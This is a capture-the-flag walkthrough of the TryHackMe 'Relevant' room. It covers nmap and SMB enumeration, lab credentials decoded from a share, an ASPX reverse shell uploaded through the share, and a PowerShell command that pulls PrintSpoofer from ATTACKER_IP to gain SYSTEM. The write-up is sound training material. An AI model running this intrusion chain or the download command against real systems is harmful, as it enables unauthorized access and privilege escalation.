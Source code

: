 ```yaml
---
title: "Relevant"
tags:
  - Medium
  - Windows
  - nmap
  - samba
  - Token Impersonation
  - PrintSpoofer
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Medium   |  |  10.10.72.53  |  | [Relevant](https://tryhackme.com/room/relevant) |  |

---

### [ User Flag ]

We first start off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

![screenshot1](../assets/images/relevant/screenshot1.png)

From the results, we can see that the following ports are open: **80 (HTTP)**, **135 (RPC)**, **139 & 445 (Samba)** and **3389 (Microsoft Terminal Services)**

Let's first take a look at the HTTP website:

![screenshot2](../assets/images/relevant/screenshot2.png)

We have a basic Windows Server page.

I did some manual enumeration of the website but was unable to find anything of interest. I also tried running a `gobuster` directory scan on the website, but unfortunately Gobuster was unable to find any hidden directories.

Hitting a dead-end, I decided to move on to enumerating the Samba server.

To do so, we can use `smbclient` to list out the shares that are accessible on the server. This can be done with the `-L` tag:

```
smbclient -L 10.10.72.53
```

![screenshot4](../assets/images/relevant/screenshot4.png)

Nice! Looks like there are a few shares that we can potentially access. Since the **nt4wrksv** share seems the most interesting, let's try logging into it!

---

*Note: Alternatively, we can use nmap scripts to enumerate the Samba server. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

As anonymous login is enabled on the share, we are able to log into the nt4wrksv share without needing a password. 

The share contained a **passwords.txt** file:

![screenshot5](../assets/images/relevant/screenshot5.png)

This file contained user passwords that were base64-encoded. I went ahead and decoded them:

![screenshot6](../assets/images/relevant/screenshot6.png)

We get 2 sets of user credentials:

> Bob : !P@$$W0rD!123

> Bill : Juw4nnaM4n420696969!$$$

I tried to access the other Samba shares with these creds, but unfortunately they did not work.

I was stuck here for abit as I wasn't sure what these credentials could be used for. I decided to run a full `nmap` scan to see if I missed any open ports on the target machine.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*(The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild!)*

**Results:**

![screenshot7](../assets/images/relevant/screenshot7.png)

Oops, looks like I did miss some. Apart from the ports that we scanned earlier, there are now 3 new ports that were detected: **49663 (HTTP)**, **49667 (RPC)**, **49669 (RPC)**

What caught my attention was the HTTP server running on port 49663. Let's take a look:

![screenshot8](../assets/images/relevant/screenshot8.png)

This brings us to the same Windows Server page as before.

However, running a `gobuster` directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The /nt4wrksv entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory!*

*This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

![screenshot9](../assets/images/relevant/screenshot9.png)

As this directory has the same name as the Samba share that we accessed earlier, I assumed that it was actually bringing us to the share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

![screenshot10](../assets/images/relevant/screenshot10.png)

Sure enough, the contents of the 'passwords.txt' file in the SMB share was displayed! 

This is great as that means we can potentially obtain remote code execution by uploading a file into the share and accessing it via this web directory. With this, we can open up a reverse shell and gain a foothold into the target machine.

Using [Wappalyzer](https://www.wappalyzer.com/) on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**:

![screenshot11](../assets/images/relevant/screenshot11.png)

As such, we will have to upload an ASPX reverse shell. We'll use this [script](https://github.com/borjmz/aspx-reverse-shell).

Using `smbclient`, I uploaded the reverse shell onto the **nt4wrksv** share. This can be done with the `put` command:

![screenshot12](../assets/images/relevant/screenshot12.png)

Next, I opened up a netcat listener and opened the reverse shell by visiting **/nt4wrksv/shell.aspx** on the web server:

![screenshot13](../assets/images/relevant/screenshot13.png)

With that, the reverse shell was successfully opened and we're in!

There is a user called Bob on the machine. We can obtain the user flag from his desktop:

![screenshot14](../assets/images/relevant/screenshot14.png)

---

### [ Root Flag ]

Next, let's find a way to escalate our privileges. 

We first check out the privileges that are enabled on our current account. We do this with the `whoami /priv` command:

![screenshot15](../assets/images/relevant/screenshot15.png)

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege, we can use the [PrintSpoofer]((https://github.com/dievus/printspoofer)) tool to escalate our privileges.

---

*More information on how PrintSpoofer works can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)*

---

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine:

```
powershell "Invoke-WebRequest -UseBasicParsing ATTACKER_IP/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges:

![screenshot16](../assets/images/relevant/screenshot16.png)

And we have successfully escalated our privileges! With that, we can obtain the root flag located on the Administrator's desktop:

![screenshot17](../assets/images/relevant/screenshot17.png)

